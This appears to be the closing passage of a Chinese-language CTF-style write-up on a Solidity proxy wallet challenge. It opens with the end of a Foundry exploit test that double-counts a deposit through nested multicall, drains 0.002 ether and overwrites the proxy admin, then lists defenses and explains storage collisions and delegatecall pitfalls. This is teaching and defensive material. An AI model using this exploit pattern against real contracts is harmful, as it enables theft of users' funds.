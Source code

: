 ```solidity
        
        // 发送 0.001 ether，但存款两次
        wallet.multicall{value: 0.001 ether}(calls);

        // 4. 提走所有资金 (0.002 ether)
        wallet.execute(player, 0.002 ether, "");

        // 5. 成为 admin
        wallet.setMaxBalance(uint256(uint160(player)));

        // 验证成功
        assertEq(proxy.admin(), player);

        vm.stopPrank();
    }
}
```

## 🛡️ 防御措施

1.  **对齐存储布局**: 在使用代理模式时，必须确保代理合约和逻辑合约的存储布局是兼容的，以避免存储冲突。在代理合约中为未来的升级保留一些空的存储槽是一种常见的做法。
2.  **修复 `multicall` 漏洞**: `multicall` 中的重入保护应该使用状态变量而不是局部变量。将 `depositCalled` 声明为合约的状态变量，并在 `multicall` 开始时设置，结束时清除，可以防止嵌套调用绕过检查。
3.  **原子化状态变更**: 避免在一次函数调用中混合多种复杂逻辑（如存款和任意 `delegatecall`）。将功能分解为更小、更原子化的函数可以减少意外的交互。

## 🎯 总结

**核心概念**:
-   **代理存储冲突**: `delegatecall` 的核心风险之一。代理和逻辑合约的存储变量必须精确对齐，否则一个合约的变量可能会被另一个合约的函数意外地修改。
-   **嵌套 `delegatecall`**: 对 `delegatecall` 的嵌套调用会继承原始调用的上下文（如 `msg.sender`, `msg.value`），但会创建新的局部变量作用域，这可能被用来绕过基于局部变量的安全检查。

**攻击向量**:
-   利用存储冲突，通过调用一个看似无关的函数（`proposeNewAdmin`）来修改一个关键的状态变量（`owner`）。
-   利用 `multicall` 中基于局部变量的重入保护缺陷，通过嵌套调用实现双重记账，从而窃取合约资金。

**防御策略**:
-   仔细规划和验证代理合约的存储布局。
-   使用状态变量来实现重入保护，而不是局部变量。

## 📚 参考资料

-   [OpenZeppelin: Writing Upgradeable Contracts](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable)
-   [SWC-112: Delegatecall to Untrusted Callee](https://swcregistry.io/docs/SWC-112)